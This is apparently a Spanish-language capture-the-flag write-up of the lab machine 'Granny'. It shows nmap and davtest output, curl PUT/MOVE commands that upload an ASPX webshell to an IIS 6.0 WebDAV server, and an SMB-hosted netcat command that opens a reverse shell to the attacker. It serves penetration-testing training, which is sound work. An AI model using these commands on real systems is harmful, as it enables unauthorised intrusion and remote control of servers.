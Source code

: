 # Granny

## Network Enumeration with `NMAP`

```markdown
└─# nmap 10.10.10.15 -vvv --open -Pn -sS --min-rate 5000 -p- -n -oA nmap
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 12:12 EDT
Initiating SYN Stealth Scan at 12:12
Scanning 10.10.10.15 [65535 ports]
Discovered open port 80/tcp on 10.10.10.15
Completed SYN Stealth Scan at 12:12, 26.64s elapsed (65535 total ports)
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.18s latency).
Scanned at 2024-06-03 12:12:16 EDT for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.77 seconds
           Raw packets sent: 131087 (5.768MB) | Rcvd: 22 (968B)
```


```markdown
└─# nmap 10.10.10.15 -sCV -p80 -oN target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 12:14 EDT
Nmap scan report for 10.10.10.15
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan:
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Mon, 03 Jun 2024 16:14:44 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds

```
                                    
                                 
                                 
# Abusing PUT & MOVE Methods

### El sitio es vulnerable a webdav, se pueden subir archivos por el metodo PUT, con la fucion `davtest` podemos probar que extensiones se permiten subir 

```markdown
└─# davtest -url http://10.10.10.15/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: zRZjpWZhnsN
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_zRZjpWZhnsN
********************************************************
 Sending test files
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.html
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.jsp
PUT     shtml   FAIL
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.txt
PUT     asp     FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.pl
PUT     cgi     FAIL
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.jhtml
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.php
PUT     aspx    FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.cfm
********************************************************
 Checking for test file execution
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.html
EXEC    html    FAIL
EXEC    jsp     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.txt
EXEC    txt     FAIL
EXEC    pl      FAIL
EXEC    jhtml   FAIL
EXEC    php     FAIL
EXEC    cfm     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_zRZjpWZhnsN
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.html
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.jsp
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.txt
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.pl
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.jhtml
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.php
PUT File: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.cfm
Executes: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.html
Executes: http://10.10.10.15/DavTestDir_zRZjpWZhnsN/davtest_zRZjpWZhnsN.txt
```

# Uploading Aspx WebShell

### Con `Curl` tambien podemos subir archivos, debemos crear un archivo primero desde el directorio enviarlo

`curl -s -X PUT http://10.10.10.15/ejemplo.txt -d @whoami.txt `

### El servidor no permite subir archivos aspx pero permite subir archivos txt, estando dentro podemos usar la funcion move de `curl`

`curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx"  http://10.10.10.15/cmdasp.txt`

### Pero antes de eso debemos buscar el websell kali trae uno que se llama `cmdasp.aspx`

```markdown
locate cmdasp.aspx
/usr/share/webshells/aspx/cmdasp.aspx
```
### Cuando subamos el archivo y modifiquemos la extension abrira una ventana como la siguiente.

![WebShell](https://raw.githubusercontent.com/jhonjairo-coder/OSCP_NOTES/main/Images/granny/imagen1.jpg)

###  Ahora con impaket smb compartimos la carpeta actal por smb

`impacket-smbserver smbshare $(pwd) -smb2support`

###  Ya con la cartpera compatida podemos ejecutar el comando con la webshell para que alcance a `netcat` ponemos a la escucha netcat con el puerto y lanzamos el comando.

###  Comando para lanzar nc desde la carpeta compartida

`\\10.10.14.37\smbshare\nc.exe -e cmd 10.10.14.37 4442`

### Puerto a la escucha

`rlwrap nc -lvnp 4442`


